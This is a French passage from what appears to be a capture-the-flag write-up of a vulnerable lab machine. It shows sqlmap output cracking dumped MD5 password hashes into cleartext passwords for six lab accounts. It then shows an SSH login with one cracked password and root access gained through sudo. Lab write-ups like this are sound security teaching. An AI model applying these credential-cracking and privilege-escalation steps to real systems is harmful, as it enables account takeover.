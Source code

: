 ```console
do you want to use common password suffixes? (slow!) [y/N] y
[12:13:14] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:13:14] [WARNING] multiprocessing hash cracking is currently not supported on this platform
[12:13:14] [INFO] cracked password 'convertible' for user 'sorzek'
[12:13:14] [INFO] cracked password 'Homesite' for user 'pmoore'
[12:13:14] [INFO] cracked password 'ilike2surf' for user 'dstevens'
[12:13:14] [INFO] cracked password 'seventysixers' for user 'achen'
[12:13:14] [INFO] cracked password 'Sue1978' for user 'jdurbin'
[12:13:14] [INFO] cracked password 'undone1' for user 'ghighland'
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | e0a23947029316880c29e8533d8662a3 (convertible)   |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

[L'attaque par dictionnaire sur les hashs de mots de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) trouvés par SQLMap a porté ses fruits : six mots de passe ont ainsi pu être récupérés. La découverte de ces mots de passe permet à un attaquant de se connecter sur le webmail SquirrelMail ```/mail/``` en tant que ```dstevens```, ```achen```, ```pmoore```, ```jdurbin``` ou encore ```ghighland```... mais pas ```sorzek``` !

### Accès SSH et élévation de privilèges, partie 1

Inutile de lancer une attaque par dictionnaire avec [__Hydra__](https://sectools.org/tool/hydra/), les mots de passe trouvés dans la base de données semblent fonctionner partout !

```console
root@blinils:~# ssh dstevens@192.168.15.131
The authenticity of host '192.168.15.131 (192.168.15.131)' can't be established.
RSA key fingerprint is SHA256:NDWh6/414mOsW4P7K6ICc5R67PrX87ADMFUx9DK9ftk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.15.131' (RSA) to the list of known hosts.
BSD SSH 4.1
dstevens@192.168.15.131's password: 
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50

[dstevens@ctf4 ~]$ sudo -l
Password:
User dstevens may run the following commands on this host:
    (ALL) ALL
[dstevens@ctf4 ~]$ sudo su
[root@ctf4 dstevens]#
```
